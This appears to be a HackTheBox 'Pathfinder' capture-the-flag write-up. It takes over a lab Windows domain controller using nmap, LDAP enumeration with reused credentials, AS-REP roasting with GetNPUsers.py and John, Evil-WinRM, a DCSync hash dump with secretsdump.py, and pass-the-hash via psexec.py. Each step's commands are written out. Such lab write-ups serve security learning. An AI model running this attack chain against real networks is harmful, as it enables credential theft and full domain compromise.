









HackTheBox - Pathfinder Writeup
Table of Contents
Enumeration
- scan top 1000 ports
nmap -sC -sV -oN nmap/initial 10.10.10.30
- the result
# Nmap 7.91 scan initiated Sat Jul 10 02:31:44 2021 as: nmap -sC -sV -oN nmap/initial 10.10.10.30
Nmap scan report for 10.10.10.30
Host is up (0.34s latency).
Not shown: 989 closed ports
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2021-07-10 01:40:02Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
Service Info: Host: PATHFINDER; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 7h07m25s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2021-07-10T01:40:31
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 10 02:33:21 2021 -- 1 IP address (1 host up) scanned in 96.82 seconds
- scan all ports
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.30
- the result
# Nmap 7.91 scan initiated Tue Jul 13 07:49:25 2021 as: nmap -sC -sV -p- -oN nmap/all_ports megacorp.local
Nmap scan report for megacorp.local (10.10.10.30)
Host is up (0.34s latency).
rDNS record for 10.10.10.30: MEGACORP.LOCAL
Not shown: 65511 closed ports
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2021-07-13 07:24:15Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49671/tcp open msrpc Microsoft Windows RPC
49676/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49677/tcp open msrpc Microsoft Windows RPC
49683/tcp open msrpc Microsoft Windows RPC
49695/tcp open msrpc Microsoft Windows RPC
49714/tcp open msrpc Microsoft Windows RPC
Service Info: Host: PATHFINDER; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 7h07m28s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2021-07-13T07:25:12
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 13 08:17:58 2021 -- 1 IP address (1 host up) scanned in 1712.57 seconds
Open Ports
- Well, that’s a lot of open port
- with quick scan. Looks like this is
Domain Controller
Hosts
- First, I’m gonna add
MEGACORP.LOCALinto/etc/hostsfile

LDAP
Lightweight Directory Access Protocol
The Lightweight Directory Access Protocol is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over an Internet Protocol network.
LDAPsearch
- Enumerate LDAP (Lightweight Directory Access Protocol)
- By using the tool called
ldapsearch
LDAP QUERY [ldapsearch]
- Let’s query this LDAP by using
ldapsearch - By using this command
- Source
ldapsearch -x -h megacorp.local -s base namingcontexts
- the result

LDAP DUMP [ldapsearch]
- Let’s dump all with this command
- Source
ldapsearch -x -h megacorp.local -b "dc=megacorp,dc=local"
- the result

- well, the operation was error
- lucky for me. I’ve got
sandracredentials from previous box shield - let’s try bind it with those creds
ldapsearch -x -h megacorp.local -b "dc=megacorp,dc=local" -D 'sandra@megacorp.local' -w 'where_you_put_the_password_in'
- the result

- the output pretty much crazy and crazy
- above was the snippet of it ;)
- so, I’m gonna save it in file called
ldump_all
LDAP DUMP USER [ldapsearch]
- Let’s dump all the user and save it in file called
ldump_users - Source
ldapsearch -x -h megacorp.local -b "dc=megacorp,dc=local" -D 'sandra@megacorp.local' -w 'where_you_put_the_password_in' "(&(objectClass=person)(objectClass=user))"
- the result
# extended LDIF
#
# LDAPv3
# base <dc=megacorp,dc=local> with scope subtree
# filter: (&(objectClass=person)(objectClass=user))
# requesting: ALL
#
# Administrator, Users, MEGACORP.LOCAL
dn: CN=Administrator,CN=Users,DC=MEGACORP,DC=LOCAL
objectClass: top
objectClass: person
--[[SNIP]]--
# search reference
ref: ldap://ForestDnsZones.MEGACORP.LOCAL/DC=ForestDnsZones,DC=MEGACORP,DC=LOC
AL
# search reference
ref: ldap://DomainDnsZones.MEGACORP.LOCAL/DC=DomainDnsZones,DC=MEGACORP,DC=LOC
AL
# search reference
ref: ldap://MEGACORP.LOCAL/CN=Configuration,DC=MEGACORP,DC=LOCAL
# search result
search: 2
result: 0 Success
# numResponses: 10
# numEntries: 6
# numReferences: 3
- Finally, we’ve got all the users

- Well, I can’t find anything usefull
- So, I went to the internet for searching tool for dumping user from
LDAP - Finally, I found one that can work
LDAP DUMP [ldapdomaindump]
- Let’s dump all the user
- Before, I run the command. I’m gonna make a folder real quick called
ldap_dumps - Source
ldapdomaindump -u megacorp\\sandra -p put_the_passwd_in -o ldap_dumps 10.10.10.30

- the command above is dumping all in folder called
ldap_dumps - the result, we’ve got a lot of file
- let’s take a look at
domain_users.html

Kerberos
Kerberos (/ˈkɜːrbərɒs/) is a computer-network authentication protocol that works on the basis of tickets to allow nodes communicating over a non-secure network to prove their identity to one another in a secure manner. The protocol was named after the character Kerberos (or Cerberus) from Greek mythology, the ferocious three-headed guard dog of Hades.
Kerberos - [DONT_REQ_PREAUTH]
Impacket [GetNPUsers.py]
This script will attempt to list and get TGTs for those users that have the property
Do not require Kerberos preauthenticationset (UF_DONT_REQUIRE_PREAUTH).
svc_besuser have very unique flags that stateDONT_REQ_PREAUTH- with those flags. I’m gonna use this impacket tool called
GetNPUsers.py - the output will save in file called
svc_bes.hashin John-The-Ripper[JtR] format.
GetNPUsers.py megacorp.local/svc_bes -no-pass -request -format john > svc_bes.hash
John-The-Ripper
- Use
JtRfor cracking the file - the result

- Now, We’ve got the
svc_besuser password
Foothold/Gaining Access
Evil-Winrm
- Nmap scan show us
winrmport is open [port 5985] - Source
- Let’s try connect into this machine with those creds
- By using
Evil-winrm - Source
evil-winrm -i 10.10.10.30 -u svc_bes -p put_the_password_here

User Flag

Privilege Escalation
DCSync Attack
DCSync is a credential dumping technique that can lead to the compromise of individual user credentials, and more seriously as a prelude to the creation of a Golden Ticket, as DCSync can be used to compromise the
krbtgtaccount’s password.
- Source
Impacket [SecretsDump.py]
Performs various techniques to dump hashes from the remote machine without executing any agent there.
- Source
- I’m gonna run
secretsdump.pywith this command
secretsdump.py megacorp.local/svc_bes:password_here@10.10.10.30
- the result

-
We manage to dump all the users hash
-
The most important hash is the
Administrator hash -
Do we crack it?
- Actually… We can login as
Administratorby usingpassword hashes
- Actually… We can login as
-
By using another
Impacketscript calledpsexec.py
Impacket [psexec.py]
PSEXEC like functionality example using RemComSvc, with the help of python script we can use this module for connecting host machine remotely
-
Source
- IppSec - Performing a Pass The Hash with the administrator user using PSExec
- IppSec - Performing SecretsDump to perform a DCSync and extract hashes, then PSEXEC with Administrator to gain access
- Hacking Articles - Remote Code Execution Using Impacket
- InfosecMatter - RCE on Windows from Linux Part 1: Impacket
-
I will run this command
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d5xxxxxxxxxxxxxxxxx
- the result

Admin flag

Conclusion
I’ve learned a lot today. I’m new to the AD/Domain Controller Hacks or whatever you want to call it :). This machine is so fun and I’ve gained a lot of knowledge about it. Do not rely on one tool only. You need to explore and find another tool and understanding it. Lastly, it is important to configure the user correctly and securely. Before I forgot, again do not put any credentials on the non-secure machine. Even tho it’s happened, quickly change the password.
I have a fun time doing this machine and I hope you guys do too. Bye ;)